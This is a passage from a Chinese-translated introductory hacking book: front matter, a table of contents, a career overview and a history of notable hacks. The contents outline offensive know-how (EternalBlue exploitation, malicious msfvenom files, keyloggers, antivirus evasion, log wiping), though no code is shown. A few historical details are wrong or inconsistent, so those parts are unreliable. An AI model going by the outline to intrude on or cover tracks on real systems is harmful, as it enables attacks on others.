# 黑客入门：成为大师级黑客：21世纪最重要的技能集！（黑客的Linux基础）

## 快速入门

## 成为顶级黑客

**Occupytheweb**


**黑客技术是21世纪最重要的技能集！**

# 献词

本书献给我三个精致的千金，她们对我而言就是全世界……

……还有 Laura，感谢她始终给予我情感上的支持和鼓励。

谢谢

ii | 页

# 关于作者

`Occupytheweb` 是一位拥有 20 多年行业经验的安全研究者和取证调查员的*化名*。他曾是大学教授，现在通过 [`www.hackers-arise.com`](http://www.hackers-arise.com) 提供黑客和信息安全课程。

`Occupytheweb` 曾为美国所有军事分支和国家情报机构培训过黑客。

欲了解有关 `Occupytheweb` 的更多信息并收听他的访谈，请访问 `www.hackers-arise.com/otw-in-the-news`

iii | 页

# 致谢

我要感谢 Hackers-Arise 社区中在本手稿开发初期提供意见和问题反馈的所有人。特别是，我要感谢 `Artur Zeilinski` 在此过程中提供的勤勉协助和评论。此外，我还要感谢一位仅被我称为“Locke”的黑客所提供的帮助。

iv | 页

# 前言

## 朋友们

感谢你拿起这本书。我希望你能从中获得信息和启发。本书旨在指引你进入 21 世纪最令人兴奋的职业生涯！

在开始之前，我想指出本书的几个元素，希望你会喜欢。

## 黑客过程与策略

黑客技术是一个过程。它不仅仅是学习一堆技术和工具。顶级黑客必须具有战略性和分析性的方法。遗憾的是，我认为其他介绍黑客技术的书籍没有充分强调这一点。因此，我希望你在这里强调的内容对你有用且富有启发性。

## 简明扼要

鉴于很少有人会阅读和研究一本 1000 页的巨著，我尽量将本书控制在可管理的篇幅内，考虑到那些想深入学习的人，资源非常丰富。有大量的网站（我尝试在 `hackers-arise.com` 上提供更多深入信息的链接）和数不清的书籍。本书旨在让你入门，而不是让你成为顶级黑客。这是一段漫长的旅程，但这是第一步。

## NSA 的 EternalBlue 案例研究

为了在整个书中展示关键原则，我重点研究了 NSA 的 `EternalBlue` 漏洞利用案例。这个两年前的漏洞利用程序于 2017 年从美国间谍机构被盗取，并导致全球范围内发生混乱。它被整合到许多攻击中，包括最著名的 `WannaCry`、`Petya` 和 `NotPetya` 勒索软件。在本书中，我在第 7 章将其用作漏洞评估的案例研究，在第 9 章用于漏洞利用，在第 10 章用于嗅探以进行漏洞分析，在第 16 章用于 Python。我希望这种方法能对你有启发且信息丰富。

祝你黑客愉快，

vi | 页

# 第 1 章：快速入门

**1**

- 黑客的职业 2
- 黑帽与白帽 4
- 黑客历史 4
- 法律后果 14

# 第 2 章：黑客必备

18

- 必备技能 19
  - 基础技能 19
  - 中级技能 21
  - 无形技能 22
- 必备工具 23

# 第 3 章：黑客流程

28

- 指纹识别 29
- 被动侦察 29
- 主动侦察 30
- 密码破解 30
- 漏洞利用 31
- 后渗透 32
- 隐藏踪迹 32

# 第 4 章：创建虚拟实验室

33

- 下载 Kali 34
- 安装 VirtualBox 36
- 在 VirtualBox 中安装 Kali 39
- 安装目标系统 44
- 安装 MySQL 46

# 第 5 章：被动侦察

48

- Google 黑客技术 49
- Netcraft 55
- Whois 59
- Shodan 61
- DNS 67
- p0F 72

# 第 6 章：主动侦察

78

- Nmap 79
- Hping 87
- Whatweb 93
- Builtwith

# 第 7 章：发现漏洞

99

- 发现 EternalBlue 漏洞 101
- Nessus 102
- OWASP-ZAP 111

# 第 8 章：密码破解

118

- 密码破解基础 119
- 密码破解策略 122
- 使用 john 破解密码 123
- 创建自定义密码列表 127
- Hashcat 135
- Windows 密码哈希 138
- 使用 Medusa 进行远程密码破解 139

# 第 9 章：使用 Metasploit 进行漏洞利用

143

## Metasploit 简介

- 144
- 关键字和命令 145
- 查找正确模块的策略 150
- Metasploit 的目录结构 151
- 使用 Metasploit 进行侦察 156
- 漏洞扫描 158
- 使用 EternalBlue 进行漏洞利用 160
- 添加新模块 164
- 使用 msfvenom 创建恶意文件 168

## 在拥有物理访问权限时使用 msfvenom 进行漏洞利用

174

# 第 10 章：数据包嗅探与分析

178

- 使用 tcpdump 进行嗅探 179
- 使用 Wireshark 进行嗅探 184
- EternalBlue 的 Wireshark 分析 192

# 第 11 章：后渗透

199

- Metasploit 后渗透模块 200
  - Idletime 203
  - Hashdump 203
  - 网络摄像头 204
  - 键盘记录器 205
  - 麦克风 207
  - Mimikatz 208
  - Arpscanner 209

## MySQL 后渗透

210

# 第 12 章：Web 黑客技术

214

- Web 黑客技术方法 215
- 网站漏洞 216
  - SQL 注入 216
  - 攻击 WordPress 网站 224

# 第 13 章：规避防病毒软件

235

- Metasploit 的规避模块 236
- 防病毒软件的工作原理 236
- 什么是 Shellcode 237
- OWASP-ZSC 238

# 第 14 章：隐藏踪迹

246

- 使用 meterpreter 隐藏踪迹 247
- 使用 wevutil 删除日志 248
- Timestomp 249
- 在 Linux 系统上隐藏踪迹 250
- 删除命令历史 251
- 粉碎命令历史 252

# 第 15 章：Wi-Fi 入侵

Wi-Fi 基础

术语

安全协议

用于入侵的 Wi-Fi 适配器

攻击 Wi-Fi 接入点

WPA2-PSK

WPS 攻击

邪恶双胞胎攻击

接入点拒绝服务攻击

PMKID 攻击

# 第 16 章：恶意 Python

Python 模块

Pip

面向对象编程

Pycharm IDE

变量

注释

函数

列表

模块

Python 网络通信

字典、循环和控制语句

异常和密码破解器

使用 Python 利用永恒之蓝漏洞

# 第 17 章：社会工程学

什么是网络安全中的社会工程学？

社会工程学向量

社会工程学的概念与策略

社会工程学工具与技术

使用 Metasploit 进行社会工程学攻击

# 结语

附录 A：密码学基础

附录 B：网络战士的智慧

索引


# 大师黑客入门

> “千里之行，始于足下”

*老子*

**欢迎回来，我立志成为大师黑客的读者们！** 我受到启发写这本书，以延续我那本意外成功的《*Linux 黑客基础*》。你们中的许多人写信询问我何时能再写一本书，帮助他们继续从初学者进阶为大师黑客的旅程。于是我们就在这里。希望你们能享受并从中受益于阅读这本书。

**我写这本书时度过了一段美好的时光！**

在我之前的书《*Linux 黑客基础*》中，我开篇便说：“黑客技术是 21 世纪最重要的技能集。” 如今——两年后——我想再次强调，这句话比以往任何时候都更正确。每一天——在我们日益数字化的世界中——我们的隐私、安全、国家安全、身份以及我们辛苦赚得的财富都面临风险。黑客技术——曾经是少数极客电脑爱好者的领域——如今已成长并**成为世界上最受追捧的技能集之一**。从国家政府、间谍机构、军队，到信息安全公司，当然还有网络犯罪企业——所有人都在寻找高技能的黑客。这本书旨在引导并训练你走向这一职业，无论你的最终目标是什么。

在我们踏上这段旅程之前，让我们审视几个领域，以便从更宏观的角度了解这个行业和职业，即：1. 向黑客开放的合法职业；2. 黑客的历史，以让你对我们这个学科有一些赞赏和视角；3. 黑客行为的法律后果，以帮助你避开危险。

### 黑客的职业

起初，人们认为黑客是少数反社会、极客个别人的职业，他们出于乐趣、恶搞或获利而为之。到 2019 年，它已成为一种由许多组织和政府广泛追捧的合法职业。以下是你规划未来时，大师黑客的一些合法就业机会。

**国家安全**


世界上几乎每个国家安全机构都使用黑客。显然，美国、中国、以色列、俄罗斯、英国和伊朗是最活跃的，但几乎所有国家政府都有进攻性网络安全部门。这些国家安全机构正在拼命寻找受过良好训练的黑客来保护国家并攻击其对手。这在 `SCADA/ICS`（监控和数据采集/工业控制系统）黑客领域尤为适用，在 `cyberwar`（网络战争）期间，国家可以瘫痪或摧毁工业设施和基础设施，如石油厂或电网（参见俄罗斯针对乌克兰电网的攻击，地址为 `www.hackers-arise/scada-hacking`）。

### 国家间谍活动

在过去，每个政府都雇用了大量的“暗杀者”式间谍，但在这个数字时代，通过黑客进行间谍活动更便宜、更安全、更可靠。别误会，世界各地仍有数千名间谍在从事他们的工作，但越来越多的国家间谍机构依赖于更便宜、更安全、更可靠的数字间谍活动。当然，为了做到这一点，他们需要优秀的黑客。

### 军事

在一个连前线士兵都使用先进数字设备的时代，各国军队正在前线和战场使用黑客。我自豪地说，几年前我训练了美国陆军第一个前线黑客部队（位于肯塔基州坎贝尔堡的特战部队）。他们以及所有其他政府都将在军事行动中使用前线黑客来瘫痪或控制对手的通信及其他数字设备。

### 渗透测试或 Pentest

如今，世界各地越来越多的公司和机构对网络威胁意识增强并感到担忧，它们正在聘请公司对系统进行安全测试。进行渗透测试（或 `pentest`）是确保这些系统安全可靠的最佳方式之一。渗透测试本质上是一种合法的黑客行为。公司聘请这些黑客或渗透测试人员尝试入侵其系统，以确定其安全性。一般想法是让“好人”黑客在“坏人”之前入侵你的系统。在渗透测试结束时，这些黑客向组织提供报告，详细说明其网络和系统的安全弱点，以便进行修复或加固。这个领域在过去十年中迅速增长，并继续扩大。

### 漏洞赏金猎人

黑客领域最新的一个区域被称为漏洞赏金猎人。公司、组织和网站现在向黑客提供奖励（赏金），这些黑客能在公众意识到之前发现其软件中的漏洞（`bug`）。其中一些赏金高达 100 万美元。美国许多最大的组织现在都提供漏洞赏金，包括微软、谷歌、脸书和美国国防部。2019 年，消息公布称，阿根廷少年 `Santiago Lopez` 是第一位获得 100 万美元的漏洞赏金猎人。

### 零日开发者

可能在黑客金字塔顶端的是零日开发者。一些黑客开发此前从未见过的零日漏洞利用程序和黑客工具，然后将其出售给网络犯罪团伙或国家间谍机构，如 `NSA`（美国国家安全局）或 `GCHQ`（英国政府通讯总部）。这些零日漏洞利用程序可以以数百万美元的价格出售，因为它们使国家间谍机构能够监视其对手及其本国公民。甚至有一些公司专门开发并销售零日漏洞利用程序，例如德国的 `Gamma Group`、法国的 `Zupen`、以色列的 `NSO Group`，或意大利的 `Hacking Team`。此外，2017 年从 `NSA` 被盗并被成为像 `WannaCry` 和 `Petya` 等关键勒索软件元素（两者都导致许多组织关闭并支付数百万美元赎金）的永恒之蓝漏洞利用程序，很可能由这些零日开发者之一为 `NSA` 开发。

### 信息安全（Infosec）工程师

黑客是最佳的信息安全工程师。不是所有学习黑客技术的人都会去破解外国强国的国家机密。许多新晋黑客将成为守护国家机密的人。简而言之，最擅长保护任何数字资源的人是那些知道他人如何入侵的人。这只是常识，但不幸的是，首席信息安全官（`CISO`）和其他负责信息安全工程师的招聘并不总是反映这种常识。但这种情况正在改变。

我认为，聘请黑客作为信息安全工程师的智慧可能反映在军事或体育策略中。你能想象一位负责保卫国家首都的将军不熟悉对手的进攻战术吗？当然不能！同样的类比可以应用于体育。一位不懂对手得分战术和策略的篮球教练呢？他们的防守能有多有效？我想不言而喻，你需要理解对方的进攻（黑客技术）才能建立有效的防守（信息安全）。

关于为什么黑客能成为更好的信息安全工程师，详见我在 `www.hackers-arise.com` 上的文章“为什么黑客是最佳信息安全工程师”。

## Linux 技能

首先，如果你还没有读过我的《黑客的Linux基础》，我建议你暂停阅读，捡起那本书并仔细研读。阅读内容并完成其中的练习。这是你从新手成长为大师级黑客旅程中的一个很好的起点。在本书中，我将假设你已经掌握了一些基础Linux技能，这些技能在那本书中有所涵盖。

# 关于黑帽与白帽的说明

几乎每本关于“黑客”的书籍都会讨论白帽黑客与黑帽黑客的概念。在我们现代世界中，这种界限已经变得模糊。例如，俄罗斯、美国和中国为了地缘政治优势，全天候（24/7）互相进行黑客攻击。从美国的视角来看，俄罗斯黑客可能被视为黑帽，而在俄罗斯，他们则会被奉为英雄。当然，反之亦然。入侵中国的美国黑客在军事或情报界是高薪且受人尊重的成员，他们住在郊区拥有不错的房子，养育着2.5个孩子，但在中国他们被视为罪犯或黑帽。我希望你理解其中的含义。背景和环境在做出这种区分时至关重要，但我更倾向于不做出这种区分。我认为在2020年，这些术语已经过时了。

在旧时——这里指的是追溯到2010年——基本上只有两种类型的黑客，但现在有很多类型和很多动机。因此，我将避免这种区分，如果我提到任何一种“帽子”，我会称他们为白帽。

# 黑客历史

在你开始这段成为大师级黑客的旅程之前，让我们回顾一下黑客的历史。


黑客在美国和世界各地有着漫长而丰富的历史。它并非昨天才开始——甚至也不是在21世纪之初才开始——而是可以追溯到近四十年前。尽管20世纪80年代黑客活动很少，但一旦互联网在20世纪90年代转向商业用途，黑客活动便进入了高速发展期。

对于不了解我们这段漫长且自豪历史的读者，我想献上以下文字，以便让你们了解这近40年历史中的高光与低谷。要列举过去40年的每一次黑客行动或每一位黑客都是不可能的，即使这是一本500页的书也是如此，因此我将仅限于简要的历史回顾，并只尝试提及该时期内最重要的黑客事件。

值得注意的是，我们在这个历史回顾中仅限于讨论那些被公开披露的黑客事件。那些未被受害者报告的黑客事件（出于对尴尬和声誉受损的恐惧，国家和大型公司对报告入侵行为往往持谨慎态度）或从未被发现的入侵，显然无法被包括在内。因此，当然，这使我们的叙述偏向于那些被抓到的案例。

# 曾经是黑客的名人

在我们深入探讨黑客历史之前，让我们看看一些曾经作为黑客的著名人物。事实上，IT和IT安全领域有很多受人尊敬的人拥有黑客背景，但很少有人愿意承认这一点。我个人认识美国主要公司的`CIO`（首席信息官）和`CTO`（首席技术官），他们曾向我承认自己曾经是黑客，但他们不愿在公开场合这样说，也真的不想让雇主知道。

## 史蒂夫·乔布斯

在出现苹果电脑、Mac、iPod、iPad 或 iPhone 之前，史蒂夫·乔布斯和他的伙伴史蒂夫·沃兹尼亚克开发了一种工具，在1972年被称为“蓝盒子”。这种工具能够复制电话公司使用的音频音调（是的，曾经有一段时间美国只有一家电话公司），从而实现在不付费的情况下拨打长途电话。

## 朱利安·阿桑奇

早在维基解密的创立之前，朱利安·阿桑奇就是澳大利亚一名臭名昭著的青少年黑客。作为澳大利亚16岁的少年，阿桑奇（化名`Mendax`）曾入侵美国国防部、`NASA`、美国海军、`MILNET`、花旗银行和洛克希德·马丁公司等众多目标。到1991年，阿桑奇因入侵北电网络（`Nortel`）被捕，并被指控犯有31项计算机犯罪。1996年，他对其中25项指控认罪，并支付了最低额度的罚款，未坐牢。

## 凯文·普尔森

现在身为《连线》（`WIRED`）杂志的作家和敏锐的科技撰稿人，凯文·普尔森起初是一名黑客。他最为人所知的成就是入侵洛杉矶`KIIS-FM`电台的电话系统，以确保自己是第102位来电者，从而赢得了奖品——一辆新款保时捷944。普尔森被联邦调查局（`FBI`）逮捕，被判处在联邦监狱服刑五年，并被禁止使用互联网三年。

## 穆奇（又名 Peter Zatko）

穆奇是黑客超级团体“已故牛群教”（`Cult of the Dead Cow, cDc`）中最知名的成员，该团体负责开发 `BackOrifice`（这是针对Windows 95和98的早期漏洞利用之一，赋予攻击者对远程系统的完全控制权），并在互联网早期提高了人们对信息安全的意识（请参见本章后面的“黑客历史”部分）。此外，穆奇还是`L0pht Heavy Industries`的 leading 成员，开发了广泛使用的密码破解工具`L0phtcrack`（它仍然存在于`Kali`中）。与其他一些黑客不同，穆奇避免触犯任何法律，并最终为比尔·克林顿总统提供网络安全的建议。

随后，他担任美国国防部高级研究计划局（`DARPA`）的一个项目经理，该项目的重点是指向网络安全领域的研究。截至2017年，他是信用卡处理商`Stripe`的安全主管（2019年，披露显示美国总统候选人贝托·奥罗克也是“已故牛群教”的成员）。

### 在最初的时候……

与《圣经》不同，黑客并没有一个明确的开端。几乎在电子计算机出现的同时（`ENIAC`于1946年为军事弹道学研究而开发），黑客就出现了。大多数这些黑客行为都很轻微，没有造成重大的经济损失或法律后果。许多人指出，有一个事件可能标志着对计算机黑客风险及其意义认知的开端。


劳伦斯利弗莫尔国家实验室位于加州伯克利，是在二战期间为研究原子武器而建立的。战后至今，该实验室一直从事核武器研发。在美苏冷战期间，该实验室成为间谍活动的目标和焦点，因为它掌握着可能使任何一方在任何冲突中占据上风的秘密。

1986年，正值冷战高峰，在天文学领域工作、担任实验室IT员工的克利福德·斯托尔被要求解决时租系统（当时，许多人共享一台大型主机计算机的时间）中0.75美元的会计错误。在调查过程中，斯托尔发现系统中存在一个未经授权的用户。斯托尔能够追踪到这个新的、未授权的用户，发现其位于德国。




斯托尔联系了FBI、CIA和其他执法机构，但几乎没有得到任何帮助。最终，他设置了包含“国家机密”的虚假文件，攻击者发现并窃取了这些文件。这很可能是历史上首次报告的虚拟蜜罐使用。最终，线索指向了一名名叫马库斯·赫斯的德国黑客。他正在窃取这些核机密并将其传递给苏联以换取报酬。

这一事件，也许比其他任何事件都更强烈地激发了国家对黑客风险的意识，并启动了禁止黑客行为的法律框架开发过程。

## 莫里斯蠕虫 - 1988

1988年11月，年轻的互联网几乎崩溃。康奈尔大学22岁的研究生罗伯特·塔潘·莫里斯释放了一种蠕虫，感染了互联网上近25%的计算机（承认的是，那时的互联网上计算机数量很少）。这对他的父亲来说特别尴尬，他是一位著名的国家安全局（NSA）科学家，当时也是全球最大的计算机公司IBM的IT安全主管。

最终，莫里斯成为第一个根据1986年《计算机欺诈和滥用法》（美国法典第18篇第1030节，见下文“法律事宜”）被起诉的人。这部法律至今仍用于起诉美国大多数黑客犯罪。莫里斯被判处三年缓刑和400小时的社区服务。莫里斯博士现在是麻省理工学院（MIT）的终身教授。

## 梅丽莎病毒 - 1999

梅丽莎病毒是病毒发展史上的一个里程碑，因为它是一种宏病毒。这意味着它利用了嵌入在 MS Office 文档中的宏来执行其破坏性行为。据报告，这可能是计算机史上最成功的病毒，全球每五台计算机中就可能有一台受到感染。

最终，梅丽莎病毒的开发人员大卫·L·史密斯（David L. Smith）被抓获并起诉。

当局通过追踪包含该病毒的 Microsoft Office 文档的 `GUID`（全球唯一标识符）抓到了史密斯。他认罪并被判处十年监禁。

## 后室与 BackOrifice 2000-1998-1999

Back Orifice（后室）于 1999 年首次亮相，是针对 Windows 95 和 Windows 98 系统的 rootkit（根套件）和远程管理工具（RAT）。它由黑客行动主义团体 Cult of the Dead Cow（死者牛教，其最著名的成员是 Mudge，现在发现美国总统候选人贝托·奥罗尔克也参与其中）开发。它在提高人们对 Windows 系统易受恶意软件攻击的意识的方面发挥了巨大作用，并促使微软认真对待安全。


这种带有易用图形界面的恶意软件使黑客能够从远程位置控制几乎任何 Windows 系统。

## DMCA 与 Elcomsoft - 2001

2001 年的《数字千年版权法》（DMCA）使盗版受版权保护的材料成为非法行为，并规定了严厉的惩罚。然而，几乎就在该法律签署生效的同时，FBI 逮捕了来到美国拉斯维加斯参加 Defcon（最著名的信息安全会议之一）的俄罗斯软件公司 Elcomsoft 的德米特里·斯科利亚罗夫（Dmitry Sklyarov）。FBI 声称斯科利亚罗夫和 Elcomsoft 在交易能够绕过版权保护的软件程序，这使斯科利亚罗夫成为根据这部新法律被逮捕和起诉的第一个人。

Elcomsoft 是一家销售数字取证软件的俄罗斯公司，这些软件也可用于黑客攻击。例如，他们生产了目前市面上最好的密码破解工具之一。正是这款被 FBI 视为非法的密码破解软件导致了他被逮捕。最终，FBI 撤销了对斯科利亚罗夫的指控，允许他返回俄罗斯。随后，Elcomsoft 公司根据该法律被起诉，并被裁定无罪。

# 匿名组织成立 - 2003

匿名组织（Anonymous）这个组织松散的黑客集体于 2003 年首次出现。作为 4chan 图片看板文化的产物，该团体获得了比其他任何黑客组织都更高的知名度。

它实施了多次广泛报道的黑客行动，包括：Chanology 行动，对科学教（Church of Scientology）网站的攻击；Payback 行动，在 MasterCard、Discover、Visa 和 PayPal 拒绝允许用户通过其服务向维基解密（WikiLeaks）捐款后，对这些机构发动的 DDoS 攻击；Paris 行动，针对 2015 年巴黎恐怖袭击的回应；ISIS 行动，试图抵消 ISIS 在互联网上的招募努力；Trump 行动，试图阻止唐纳德·特朗普当选总统；以及许多其他行动。

Hackers-Arise.com 的若干成员、贡献者和读者也是匿名组织的成员。

# TJX - 2007

TJX 是 TJ Maxx 和 Marshalls 等平价零售商控股公司，由于黑客能够侵入其未受保护的无线网络，该公司丢失了近 4500 万条客户记录和信用卡号码。直到当时，这是最大规模的数据安全泄露事件。

黑客发现其一家门店有一个未受保护的无线网络，他们可以从停车场访问该网络。随后，他们遍历公司网络到达存储客户账户和信用卡号码的数据库服务器。TJX 将所有这些数据以未加密形式存储，使黑客的任务变得异常容易。

# 卡夫市场与 Max Butler - 2007

美国黑客 Max Ray Butler，又名 Max Vision，接管了全球最大的被盗信用卡号黑市——Carders Market。最终，在 2007 年，Butler（也是 Arachnids 漏洞数据库的创始人）被抓获并被判入狱十三年，这是迄今为止对黑客施加的最严厉刑罚。Butler 正与计算机应急响应团队（CERT）合作，并很可能因合作而获得提前释放。

# 格鲁吉亚与南奥塞梯 - 2008

这常被标记为网络战历史上的一个里程碑。作为前苏联共和国的格鲁吉亚，其互联网架构遭受了大规模的 DDoS 攻击。结果是，所有基于互联网的政府和军事通信都被中断，而俄罗斯坦克和部队则进入格鲁吉亚的南奥塞梯地区。该 DDoS 攻击是由俄罗斯平民黑客发起的，可能是在克里姆林宫的指示下进行的。

# Conficker 蠕虫 - 2009

首次检测到于 2008 年 11 月，Conficker 蠕虫在 2009 年和 2010 年让几乎每一个 Windows 用户及其 IT 部门感到恐惧。该蠕虫利用了 Windows 系统中称为 `MS08-067` 的漏洞（Metasploit 现在有一个用于测试此漏洞的利用程序）。Conficker 蠕虫创造了历史上最大的僵尸网络之一，规模可能达到全球 1500 万台计算机系统。

该蠕虫使开发人员能够访问计算机用户的个人信息，同时将其加入一个庞大的全球僵尸网络，该网络可用于 DDoS（分布式拒绝服务）攻击、密码破解和垃圾邮件发送等许多恶意活动。尽管国际社会共同努力，但没有人确定谁对 Conficker 负责以及其最终目的是什么。

# 极光行动 - 2010

2010 年，谷歌成为大规模攻击的受害者，据推测是来自中国国家级黑客。这些攻击旨在破坏谷歌的 Gmail 服务。谷歌猜测中国政府正试图获取在其境内使用 Gmail 进行沟通的异见人士的信息。结果，谷歌做出了战略决定，退出全球最大市场——中国市场。

# 软件破坏

## Stuxnet 如何扰乱伊朗的铀浓缩计划


1. 该恶意计算机蠕虫可能通过可移动 USB 存储棒进入了通常与外界隔离的纳坦兹（Natanz）铀浓缩设施的计算机系统。
2. 该病毒通过两个互联网地址，借助丹麦和马来西亚的服务器进行控制，这两个地址都注册为虚假名称。该病毒感染了全球约 10 万台计算机。
3. Stuxnet 在系统中传播，直到找到运行西门子控制软件 `Step 7` 的计算机，该软件负责调节离心机的转速。
4. 该计算机蠕虫改变离心机的转速。这会破坏离心机并损害铀浓缩过程。
5. Stuxnet 攻击始于 2009 年 6 月。从那时起，故障离心机的数量急剧增加。

伊朗的铀浓缩离心机




### Stuxnet - 2010

这可能是有史以来最复杂的黑客攻击。毫无疑问，该恶意软件是由 NSA 开发的，很可能与以色列合作。其意图是减缓伊朗的核发展努力，并实现了这一目标。


# Stuxnet - 2009

该蠕虫首次于 2009 年在野外释放，并传遍全球。它很快被安全研究人员发现，但其目的未知。最终，它找到了通往伊朗纳坦兹离线铀浓缩设施的路径，感染了用于浓缩铀的离心机上的西门子 PLC 控制器。它并没有使这些控制器失效，而是使其以不足以正确浓缩铀的速度运行，同时向控制室报告一切正常。

这一恶意软件部分既复杂又独特。首先，它非常具体；它仅感染用于该浓缩设施的西门子生产的控制器。其次，在所有其他受感染的计算机上它是无害的。只有当它检测到目标 PLC 时，才会“回传”以获取升级。

第三，它使用了可能由 NSA 的超级计算机生成的哈希碰撞，以绕过微软的软件签名证书认证过程。总之，世界从未见过如此复杂的恶意软件，但我确信这种状况不会持续太久。关于 Stuxnet 的更多信息，请参阅 [https://www.hackers-arise.com/post/2019/11/01/scada-hacking-anatomy-of-the-stuxnet-attack](https://www.hackers-arise.com/post/2019/11/01/scada-hacking-anatomy-of-the-stuxnet-attack)

# PlayStation Network - 2011

索尼公司的 PlayStation Network 在 2011 年 4 月遭到黑客攻击，超过 7700 万用户的个人身份信息（PII）泄露。这是历史上最大规模的数据安全泄露事件之一。索尼指责匿名组织，但匿名组织否认参与。

# Aaron Swartz - 2011

亚伦·斯沃茨（Aaron Swartz）是信息自由事业的一位标志性人物和烈士。斯沃茨因开发网页聚合格式 RSS 而闻名，并参与创立了知识共享组织（Creative Commons），同时也是 Reddit 的联合创始人。2011 年 1 月，斯沃茨因将计算机连接到麻省理工学院（MIT）网络并下载学术期刊文章而被 MIT 警方逮捕。

联邦检察官以电汇欺诈和违反《计算机欺诈和滥用法》（美国法典第 18 篇第 1030 节）的十一条罪名起诉了他。这些指控可能意味着斯沃茨将被判处最高三十五年的监禁。

因联邦检察官的重拳出击和嚣张姿态让他身陷囹圄，斯沃茨悲痛欲绝，最终在他的布鲁克林公寓里上吊自杀。

2013 年 8 月，亚伦·斯沃茨入选互联网名人堂。

# 杰里米·哈蒙德（Jeremy Hammond） - 2013

杰里米·哈蒙德是一名计算机黑客和骇客行动主义者。2013 年 11 月，他因入侵私人外国情报公司斯特拉福（Stratfor），并将信息和邮件发布到维基解密（WikiLeaks）而被定罪并判处十年联邦监禁。有趣的是，主持其审判的法官洛蕾塔·普雷斯卡（Loretta Preska）通过她的丈夫与斯特拉福有利益关联，但她却拒绝回避审理此案。

哈蒙德年仅 18 岁时就创建了网站 `www.hackthissite.com`。哈蒙德长期以来都是信息安全社区的中流砥柱，他是利用自身技能造福公众的绝佳典范，尽管美国司法系统将他定性为罪犯。

# 马多克斯（Mt. Gox） - 2011-2014

总部位于东京的马多克斯（Mt. Gox）是最早的比特币（数字加密货币）交易所之一，可能也是最广泛使用的交易所。它成立于 2010 年，并于 2014 年关闭了其网站和交易平台。在此期间，超过 850,000 枚比特币（当时价值 4.5 亿美元，目前价值超过 410 亿美元）从其交易平台失踪。

最终揭露的事实是，马多克斯多年来多次被不同黑客入侵。马多克斯的首席执行官马克·卡佩莱（Mark Karpeles）于 2015 年因篡改账户记录以掩盖损失而被捕。

# 塔吉特/家得宝黑客攻击 - 2013

2013 年 12 月，塔吉特（Target）揭露其数据库服务器遭到黑客入侵，数百万客户的数据被泄露。黑客显然利用了运行 Windows XP 系统的销售点（POS）系统进入网络，然后从中访问数据库服务器提取数据。

证据指向一个俄罗斯网络犯罪组织，该组织以 1,700 美元的价格从一名俄罗斯青少年手中购买了该漏洞利用程序。在塔吉特黑客攻击事件发生不久后，美国主要零售商遭遇了同样的攻击，其中最著名的是家得宝（Home Depot）。这次攻击很可能导致了历史上最大规模的数据泄露之一，涉及超过 1 亿张信用卡信息。这对这些零售商的信息安全声誉造成了重大影响，并促使美国信用卡发行机构最终开始向更安全的芯片信用卡过渡，而欧洲发行机构早在十多年前就已经完成了这一转变。

# 雅虎（Yahoo） - 2013

在迄今为止最大规模的数据泄露事件中，黑客突破了雅虎的电子邮件服务，窃取了 30 亿个电子邮件账户的密码。这次泄露事件困扰了雅虎多年，最终导致其被威瑞森（Verizon）收购。

# 索尼（Sony） - 2014

就在 2014 年圣诞节前夕，索尼娱乐的计算机系统遭到黑客入侵，据推测是朝鲜政府所为，这是对索尼即将发行的一部电影的回击。这部电影对朝鲜独裁者金正恩形象不利。黑客能够复制电影、电子邮件和令索尼深感尴尬的机密公司文件。

独立研究人员发现证据表明，该攻击很可能是前员工因对公司怀有怨恨而进行的内部作案。

# 黑客团队（Hacking Team） - 2015

2015 年，一家名为“黑客团队”的意大利公司遭到黑客入侵，其电子邮件和文件服务器的内容被发布到网上。这次黑客攻击之所以意义重大，是因为它清楚地表明黑客攻击已经成为一项合法的生意。从其服务器邮件中可以看出，黑客团队像法国的漏洞开发商 Vupen 一样，开发零日漏洞并将其出售给世界各地的政府。这些漏洞主要被政府用于监控和监视公民的在线活动。

# 巴拿马文件黑客攻击 - 2016

2016 年，全球各地的富人被揭露出利用由神秘律师事务所莫萨克·冯赛卡（Mossack Fonseca）在巴拿马设立的壳公司来避税。虽然没有人因这些揭露而入狱，但冰岛总理大卫·冈劳佐（David Gunnlaugsson）因在巴拿马隐藏资产而被迫辞职，英国首相戴维·卡梅伦（David Cameron）则因家人使用避税手段而不得不公开道歉（他最终因脱欧问题辞职，但这些揭露对他并无帮助）。

